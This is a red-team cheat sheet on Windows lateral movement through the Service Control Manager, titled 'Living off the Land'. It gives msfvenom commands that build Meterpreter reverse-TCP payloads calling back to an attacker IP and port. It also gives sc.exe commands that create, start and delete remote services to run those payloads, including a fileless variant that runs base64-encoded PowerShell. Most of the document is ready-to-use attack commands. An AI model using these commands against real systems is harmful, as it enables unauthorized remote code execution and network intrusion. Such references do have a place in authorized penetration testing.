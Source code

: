 # Living off the Land

Search Tag(s): #lateral-movement #service-control-manager #windows

## 01 - Usage

After we generate a reverse/bind shell refer to the techniques to copy the shell via [[Windows Lateral Movement References|SMB]].

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread -f exe-service -o implantsvc.exe

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd
```

Here's the following syntax

```
C:\> sc.exe \\<IP> create <ServiceSVC> binpath= "c:\path\to\implantsvc.exe"

C:\> sc.exe \\<IP> start <ServiceSVC>

C:\> sc.exe \\<IP> delete <ServiceSVC>
```

## 02 - Use Cases

### 2.1 - Fileless Implant

```
C:\> sc.exe \\<IP> create pwshpayload binpath= "powershell -E <base64_encoded>"

C:\> sc.exe \\<IP> start pwshpayload

C:\> sc.exe \\<IP> delete pwshpayload
```

### 2.1 - Dropper Implant

```
C:\> sc.exe \\<IP> create TestMaintenance binpath= "c:\path\to\implantsvc.exe"

C:\> sc.exe \\<IP> start TestMaintenance

C:\> sc \\<IP> delete TestMaintenance
```

---
## References

- [LOFLCAB: Service Control Manager](https://lofl-project.github.io/loflcab/Binaries/sc/)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

- [Riccardo Ancarani - Red Team Adventures: Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)